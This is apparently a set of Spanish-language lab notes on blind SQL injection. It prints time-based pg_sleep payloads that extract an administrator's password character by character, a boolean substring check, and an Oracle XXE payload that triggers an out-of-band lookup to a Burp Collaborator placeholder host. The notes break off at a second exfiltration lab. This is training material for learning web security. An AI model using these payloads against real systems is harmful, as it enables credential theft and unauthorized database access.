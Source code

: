 '%3b select case when(username='administrator' and substring(password,1,1)='a' ) then pg_sleep(5) else pg_sleep(0) en from users -- -




and (select substr(password,1,1) from users where username='administrator')='a'
 'or (select case when substring(password,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username = 'administrator') is not null-- -











# Inyección SQL ciega con interacción out-of-band (OOB)

## Laboratorio: Inyección SQL ciega con interacción fuera de banda

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.

La consulta SQL se ejecuta de forma asincrónica y no tiene ningún efecto sobre la respuesta de la aplicación. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección SQL para provocar una búsqueda de DNS en Burp Collaborator.



- La vulnerabilidad reside en la cookie ‘TrackingId‘, que es inyectada en una consulta SQL. Aprovechamos esta situación para insertar un payload que provoca una resolución DNS hacia un dominio controlado, utilizando la funcionalidad de Burp Collaborator.

- Combinamos la inyección SQL con una entidad externa en XML (XXE) que genera una solicitud automática a un subdominio de Collaborator, confirmando así que la inyección fue ejecutada aunque no haya evidencia directa en la respuesta HTTP.




SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %25remote%3b]>'),'/l') FROM dual





# Exfiltración de datos por canal OOB en Inyección SQL

## Laboratorio: Inyección SQL ciega con exfiltración de datos fuera de banda

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.
